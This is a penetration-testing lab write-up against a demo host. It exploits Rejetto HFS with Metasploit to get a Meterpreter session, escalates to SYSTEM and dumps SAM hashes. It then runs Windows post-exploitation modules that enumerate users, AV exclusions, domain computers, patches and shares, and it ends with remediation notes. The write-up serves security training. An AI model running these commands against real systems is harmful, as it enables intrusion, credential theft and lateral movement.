# Windows Post-Exploitation Modules

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (10.2.24.163) — Windows Server 2008 R2–2012, Rejetto HFS<br>
**Objective:** Run various Windows post-exploitation modules against the compromised host.

## 1. Executive Summary

After exploiting **Rejetto HFS** for a Meterpreter session, we tour the Windows
post-exploitation toolkit: built-in Meterpreter commands plus `post/windows/*` modules that
enumerate privileges, logged-on users, VM status, installed applications, AV exclusions,
domain computers, patches and shares — with results stored in **loot**.

## 2. Recon & Exploitation

```bash
ping -c 4 demo.ine.local
db_nmap -sV 10.2.24.163
services
```









```bash
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.2.24.163
exploit
```



Migrating into `explorer.exe` for stability.

```bash
pgrep explorer
migrate <pid>
```



## 3. Built-in Meterpreter Commands

```bash
getsystem       # elevate to SYSTEM
getuid          # current user
hashdump        # dump SAM hashes
```



```bash
show_mount      # mounts / disks
```



```bash
ps              # running processes
```



```bash
sysinfo
```



```bash
pwd ; cd ; dir ; cat ; download
```





## 4. Post-Exploitation Modules

Backgrounding the session to run post modules.



```bash
run post/windows/manage/archmigrate     # match Meterpreter arch to the OS
```



```bash
run post/windows/gather/win_privs        # current user privileges
```



```bash
run post/windows/gather/enum_logged_on_users
```



```bash
run post/windows/gather/checkvm          # VM detection
```



```bash
run post/windows/gather/enum_applications
```



Module output is saved in the loot directory.

```bash
loot
```



```bash
run post/windows/gather/enum_av_excluded # AV exclusions
```



```bash
run post/windows/gather/enum_computers   # domain computers
```



```bash
run post/windows/gather/enum_patches     # applied patches
```



If patch info isn't available via the module, check it manually in a shell.

```cmd
shell
systeminfo
```



```bash
run post/windows/gather/enum_shares      # shares
```



## 5. Notes & Remediation

1. Post-exploitation enumeration feeds lateral movement (AV exclusions, domain computers,
   shares) — defenders should **monitor for mass enumeration** from a single host.
2. **Protect LSASS/SAM** (Credential Guard) against `hashdump`.
3. **Patch/replace Rejetto HFS** and apply least privilege so SYSTEM isn't trivially reached.
